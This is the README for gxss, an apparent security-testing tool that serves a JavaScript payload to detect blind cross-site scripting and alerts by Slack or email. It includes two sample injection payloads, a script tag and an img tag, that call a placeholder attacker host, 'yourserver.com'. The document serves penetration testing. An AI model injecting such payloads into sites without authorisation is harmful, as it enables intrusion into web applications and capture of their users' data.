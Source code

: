 ## Blind XSS as a service

**gxss** is a simple tool which serves a javascript payload and allows to identify blind XSS vulnerabilities. It works as [xsshunter](https://github.com/mandatoryprogrammer/xsshunter), but it is a bit simpler to use and configure. Alerts can be sent via Slack or E-Mail. E-Mails will also have an screenshot of the DOM attached.

![gxss](misc/mail.png)

*Note: The javascript payload was taken from [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) and slightly modified*

### Installation

```
go get -u github.com/rverton/gxss
```

### Configuration

Create a file called `.env` or set up your environment to export the following data:
```
PORT=8080
MAIL_SERVER=mail.example.com:25
MAIL_USER=user
MAIL_PASS=pass
MAIL_TO=hello@robinverton.de
MAIL_FROM=gxss@robinverton.de
SLACK_WEBHOOK=https://hooks.slack.com/XYZ
SERVE_URL=localhost:8080
```

The `SERVE_URL` is the public accessible URL of your server.

You can leave the `MAIL_*` or the `SLACK_WEBHOOK` setting blank if you do not want to use it. Find more about how to setup Slack webhooks [here](https://api.slack.com/incoming-webhooks).

### Usage

```
$ gxss
```

You can now use a payload like the following which will load and execute the javascript payload:

```html
<script src=//yourserver.com></script>
```

gxss can also be used as a request bin. Every request matching `//yourserver.com/k{key}` will be alerted to you. Example:

```html
<img src=//yourserver.com/kTARGET1>
```